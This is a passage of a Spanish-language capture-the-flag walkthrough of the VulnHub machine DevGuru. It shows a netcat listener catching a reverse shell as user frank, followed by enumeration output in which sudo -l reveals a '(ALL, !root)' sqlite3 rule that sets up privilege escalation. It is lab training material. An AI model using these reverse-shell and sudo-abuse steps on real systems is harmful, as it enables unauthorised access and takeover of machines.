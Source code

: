 ![""](/assets/images/vh-devguru/devguru20.png)

```bash
❯ nc -nlvp 8443
listening on [any] 8443 ...
connect to [10.0.0.75] from (UNKNOWN) [10.0.0.96] 52452
bash: cannot set terminal process group (931): Inappropriate ioctl for device
bash: no job control in this shell
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ whoami
whoami
frank
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ 
```

Como siempre, hacemos un [Tratamiento de la tty](/posts/tratamiento-tty) para trabajar más cómodos y no matemos la shell por errror. Ya somos el usuario **frank** y podemos visualizar la primer flag (user.txt). Vamos a enumerar un poco el sistema para encontrar una forma de escalar privilegios:

```bash
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ sudo -l
Matching Defaults entries for frank on devguru:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User frank may run the following commands on devguru:
    (ALL, !root) NOPASSWD: /usr/bin/sqlite3
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ 
```
